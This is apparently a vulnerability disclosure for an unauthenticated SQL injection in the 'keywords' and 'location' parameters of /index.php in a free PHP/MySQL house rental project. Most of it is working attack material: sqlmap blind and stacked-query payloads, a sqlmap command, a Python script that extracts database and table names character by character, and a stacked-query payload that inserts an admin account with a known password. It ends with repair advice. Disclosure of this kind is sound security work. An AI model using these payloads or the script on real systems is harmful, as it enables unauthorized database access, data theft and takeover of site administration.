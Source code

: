 # PROJECTSWORLDS House rental And Property Listing Project PHP , Mysql V1.0 /index.php SQL injection
# NAME OF AFFECTED PRODUCT(S)
+ House rental And Property Listing Project PHP , Mysql

## Vendor Homepage
+ [homepage](https://projectworlds.in/free-projects/php-projects/house-rental-and-property-listing-project-php-mysql/)

# AFFECTED AND/OR FIXED VERSION(S)
## submitter
+ takakie

## Vulnerable File
+ /index.php

## VERSION(S)
+ V1.0

# Software Link
+ [Download Source Code](https://projectworlds.in/wp-content/uploads/2019/06/home-rental.zip)

# PROBLEM TYPE
## Vulnerability Type
+ SQL injection

## Root Cause
+ A SQL injection vulnerability was found in the '/index.php' file of the 'House rental And Property Listing Project' project. The reason for this issue is that attackers inject malicious code from the parameters 'keywords','location' and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact
+ Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

## DESCRIPTION
+ During the security review of "House rental And Property Listing Project", takakie discovered a critical SQL injection vulnerability in the "/index.php" file. This vulnerability stems from insufficient user input validation of the 'keywords' parameter and 'location', allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability  details and POC

## Vulnerability type:

+ boolean-based blind
+ time-based blind
+ stacked queries

## Vulnerability location:
+ 'keywords' parameter and 'location' parameter

## Payload:
```bash
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: keywords=') AND 3038=3038 AND ('BCbi'='BCbi&location=&search=search

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: keywords=');SELECT SLEEP(5)#&location=&search=search

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (SLEEP - comment)
    Payload: keywords=') OR SLEEP(5)#&location=&search=search
---

---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: keywords=&location=india') AND 2543=2543 AND ('vOQw'='vOQw&search=search

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: keywords=&location=india');SELECT SLEEP(5)#&search=search

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SLEEP)
    Payload: keywords=&location=india') AND SLEEP(5) AND ('qSUX'='qSUX&search=search
---
```

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
```bash
sqlmap -r newrent_sql.txt --dbms=mysql --dbs --batch 
```

![image-20250313101447955](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250313101447955.png?x-oss-process=style/img-to-webp)

- "Due to the system using $keyword = explode(',', $keywords); for parameter processing, commas (,) cannot be utilized. Therefore, I developed the following Proof of Concept (PoC):" 
- boolean-based blind

```python
import requests

if __name__ == '__main__':
    # your target url
    url = "http://192.168.100.147/index.php"
    database_info = ""
    country = "india" # The country parameter value must exist in the system. You can send an empty parameter query to get it.
    length = 0
    # query all tables in the database
    sql1 = "SELECT group_concat(table_name) FROM information_schema.TABLES WHERE table_schema = DATABASE()"
    # query all database
    sql2 = "select group_concat(schema_name) from information_schema.schemata"

    for i in range(1, 999):
        for c in range(32, 127):
            payload = f"{country}') AND ASCII(SUBSTR(({sql2} LIMIT 1 OFFSET 0) FROM {i} FOR 1))={c} -- "
            keywords = payload
            location = "" # if you want to attack 'location' parameter you can set 'location = payload'
            data = {
                "keywords": keywords,
                "location": location,
                "search": "search"
            }
            r = requests.post(url, data)
            if len(r.text) > 6000:
                if c == 44:
                    print("Database_info:", database_info)
                    database_info = ""
                else:
                    database_info += chr(c)
                break

        if len(database_info) == length:
            break
        length = len(database_info)
    print("Database_info:", database_info)


```

![image-20250313103633628](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250313103633628.png?x-oss-process=style/img-to-webp)

![image-20250313103747890](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250313103747890.png?x-oss-process=style/img-to-webp)

- stacked queries; insert a user of admin role
- Poc

```sql
keywords=india');INSERT INTO users SELECT * FROM (SELECT 3)a CROSS JOIN (SELECT 'systest')b CROSS JOIN (SELECT '15661561521')c CROSS JOIN (SELECT 'test')d CROSS JOIN (SELECT 'user1@gmail.com')e CROSS JOIN (SELECT md5('123456'))f CROSS JOIN (SELECT NOW())g CROSS JOIN (SELECT NOW())h CROSS JOIN (SELECT 'admin')j CROSS JOIN (SELECT 1)k; #
&location=
&search=search
```

![image-20250313111731407](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250313111731407.png?x-oss-process=style/img-to-webp)

![image-20250313112300781](./image-20250313112300781.png)

![image-20250313112051653](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250313112051653.png?x-oss-process=style/img-to-webp)

# Suggested repair
1. Use prepared statements and parameter binding:  
Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. Input validation and filtering:  
Strictly validate and filter user input data to ensure it conforms to the expected format.
3. Minimize database user permissions:  
Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. Regular security audits:  
Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.

